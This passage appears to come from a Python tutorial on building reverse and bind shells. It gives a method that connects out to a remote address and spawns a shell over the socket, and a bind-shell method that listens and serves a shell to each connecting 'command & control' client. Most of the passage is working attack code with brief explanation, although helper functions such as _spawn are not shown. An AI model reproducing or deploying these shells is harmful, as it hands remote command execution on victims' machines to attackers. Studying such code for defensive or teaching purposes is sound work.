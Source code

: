 ```python
    sock.close()
```

# Create Connection

We can further achieve a more succinct design with the combination of the context manager keyword `with` and `create_conection()` which does the job of getaddrinfo(), socket() and connect().

> Connect to a TCP service listening on the Internet address (a 2-tuple (host, port)), and return the socket object. This is a higher-level function than socket.connect(): if host is a non-numeric hostname, it will try to resolve it for both AF_INET and AF_INET6, and then try to connect to all possible addresses in turn until a connection succeeds. This makes it easy to write clients that are compatible to both IPv4 and IPv6. ― [create_connection(address[, timeout[, source_address]])](https://docs.python.org/3/library/socket.html#socket.create_connection)



```python
@infinite
def reverse_shell_create(self):
    with socket.create_connection(self.addr) as sock:

        print(f"Connected: {self.__host}:{self.__port}")

        self._spawn(sock, *self.addr)
```

## **Bind Shells In Python**

Remember that bind shells are programs that open listeners and wait for incoming connections. The connecting attacker is then served a shell upon connection with the victim. Not unlike the reverse shell we first create the socket object, afterward we attempt to associate the socket object to a local endpoint using `bind()`. I've also made sure to encapsulate bind in an try except block to alert us if the endpoint is already in use by another server. We then need to enable the server to accept connections with `listen()` after which we can use `accept()` to obtain a client socket which will be used to send our bind shell.



```python
@infinite
@ncat
def bind_shell(self):
    # socket object is created and assigned to bshell
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    try:
        sock.bind(self.addr)
    except OSError as error:
        if error.errno == 10048:
            print("Another service is using this address.")
            os._exit(1)

    host, port = sock.getsockname()
    print(f"Binding: {host}:{port}")
    # Enable a server to accept connections
    # 1 unaccepted connection allowed before
    # refusing new connections
    sock.listen(1)

    # infinitely accept new command & control clients
    while True:
        clientSocket, (ip, port) = sock.accept()
        print(f"{ip}:{port}> joined ...")

        self._spawn(clientSocket, ip, port, True)
        
```